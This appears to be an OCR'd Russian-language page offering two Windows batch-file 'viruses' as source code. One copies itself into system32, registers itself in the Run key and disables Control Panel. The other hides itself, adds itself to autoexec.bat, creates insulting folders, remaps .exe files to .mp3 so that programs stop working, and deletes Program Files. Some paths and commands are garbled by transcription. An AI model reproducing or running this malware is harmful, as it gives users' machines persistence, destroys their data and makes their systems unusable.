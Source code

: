 Добавляет программу в автозагрузку ОС

copy ""%0"" "%SystemRoot%\system32\File.bat"
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Filel" /t REG_SZ /d "%SystemRoot%\system32\File.bat" /f
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoControlPanel /t REG_DWORD /d 1 /f


Этот вирус,блокирует все программы,но интернет работает.

@Echo off
Echo Virus Loading
Date 13.09.96
If exist c:ski.bat goto abc
Copy %0 c:ski.bat
Attrib +h c:ski.bat
Echo c:ski.bat >>autoexec.bat
:abc
md PRIDUROK
md LUZER
md DURAK
md LAMER
Label E: PRIDUROK
assoc .exe=.mp3
del c:Program Files/q
Echo VIRUS LOAD
